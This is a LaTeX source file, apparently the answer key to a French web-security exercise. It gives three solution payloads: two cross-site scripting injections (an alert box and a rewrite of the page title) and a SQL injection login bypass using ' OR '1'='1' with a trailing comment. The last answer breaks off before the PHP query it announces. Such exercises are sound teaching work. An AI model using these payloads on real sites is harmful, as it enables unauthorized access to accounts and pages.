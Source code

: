 \documentclass[a4paper,9pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\begin{document}
\begin{correction}

   \begin{enumerate}
   \item Solution proposée
\begin{verbatim}
mille%' <script> alert('coucou'); </script> #'
\end{verbatim}

   \item Solution proposée (on a juste à accéder à l'élément title du document et à le modifier).
\begin{verbatim}
   mille%'; # <script> document.title='Ha ha!'</script> #'|
\end{verbatim}
   
    \item  L'important est de le faire sur l'entrée du login  en forcant un booléén à true) et de mettre à la fin un dièse de commentaire en un guillemet qui sera fermé par celui sur le mot de passe dans la requête d'authentification.
      \begin{verbatim}
        login: xxx' OR '1'='1'; #'
\end{verbatim}
      Ensuite le mot de passe peut etre n'importe quoi, en mettant 'hey' la requête du code php est la suivante.
      
\end{enumerate}
\end{correction}

\bigskip
\end{document}
